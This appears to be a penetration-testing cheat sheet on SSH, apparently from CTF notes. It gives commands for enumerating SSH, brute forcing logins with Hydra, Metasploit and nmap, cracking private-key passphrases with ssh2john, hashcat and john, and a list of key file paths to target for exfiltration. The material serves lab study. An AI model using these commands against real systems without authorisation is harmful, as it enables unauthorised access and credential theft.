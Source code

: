 # 22 - SSH

## Inline Command Execution

```bash
ssh user1@10.10.10.10 -p 2222 'ls /home/user1/'
```

## Enumeration

Supported authentication methods.

```bash
nmap -p22 -script=ssh-auth-methods <IP>
```

## Audit

{% code overflow="wrap" %}
```bash
$ ssh-audit 192.168.0.24
# general
(gen) banner: SSH-1.99-OpenSSH_2.9p2
(gen) protocol SSH1 enabled
(gen) software: OpenSSH 2.9p2
(gen) compatibility: OpenSSH 2.5.0-6.6, Dropbear SSH 0.47-0.52
(gen) compression: enabled (zlib)

<SNIP>
```
{% endcode %}

## Brute Force

{% tabs %}
{% tab title="Hydra" %}
{% code overflow="wrap" %}
```bash
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.0.24:22 -t 4
```
{% endcode %}
{% endtab %}

{% tab title="Metasploit" %}
```bash
$ msfconsole -q
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_AS_PASS true
USER_AS_PASS => true
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.57.134
RHOSTS => 192.168.57.134
```
{% endtab %}

{% tab title="Nmap" %}
```bash
nmap -p 22 --script ssh-brute potato
```
{% endtab %}
{% endtabs %}

## PPK to PEM

Convert a Putty user key file (`.ppk`) to an SSH `.pem` file.

```bash
# Converting PPK to PEM
sudo puttygen key.ppk -O private-openssh -o key.pem
# Assigning the appropriate permissions
sudo chmod 600 key.pem
# Confirming permissions
ls -l key.pem
# Using public key authentication
ssh root@10.10.11.227 -i key.pem
```

For an example of the above process check [Keeper](../../../boxes/easy/keeper.md#keepass-exploitation).

## Private Keys

{% tabs %}
{% tab title="1. Convertion" %}
{% code overflow="wrap" %}
```bash
# converting the private key into a hashcat-friendly format
$ ssh2john id_rsa > ssh.hash
```
{% endcode %}
{% endtab %}

{% tab title="2. Formatting" %}
{% code overflow="wrap" %}
```bash
$ cat ssh.hash
id_rsa:$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e737<SNIP>

# removing the 'id_rsa' username
$ nano ssh.hash
$ cat ssh.hash
$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e737<SNIP>
```
{% endcode %}
{% endtab %}

{% tab title="3. Cracking" %}
{% code overflow="wrap" %}
```bash
$ hashcat -h | grep -i "ssh" 
<SNIP>
22921 | RSA/DSA/EC/OpenSSH Private Keys ($6$) | Private Key

# might not work
$ hashcat -m 22921 ssh.hash ssh.passwords
# this will probably work
$ john --wordlist=ssh.passwords ssh.hash
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Key Types

SSH supports **multiple key types**, each with a default filename, thus, when trying to exfiltrate one don't just search for `id_rsa`!

| Key Type  | Private Key File    | Public Key File         |
| --------- | ------------------- | ----------------------- |
| RSA       | `~/.ssh/id_rsa`     | `~/.ssh/id_rsa.pub`     |
| ECDSA     | `~/.ssh/id_ecdsa`   | `~/.ssh/id_ecdsa.pub`   |
| ED25519   | `~/.ssh/id_ed25519` | `~/.ssh/id_ed25519.pub` |
| DSA (old) | `~/.ssh/id_dsa`     | `~/.ssh/id_dsa.pub`     |

* **ECDSA** and **ED25519** are newer and generally faster/smaller than RSA.
* **ED25519** is currently the recommended default for many systems (`ssh-keygen` defaults to it now).
* **RSA** is still widely supported, but **4096-bit keys** are preferred now due to security standards.

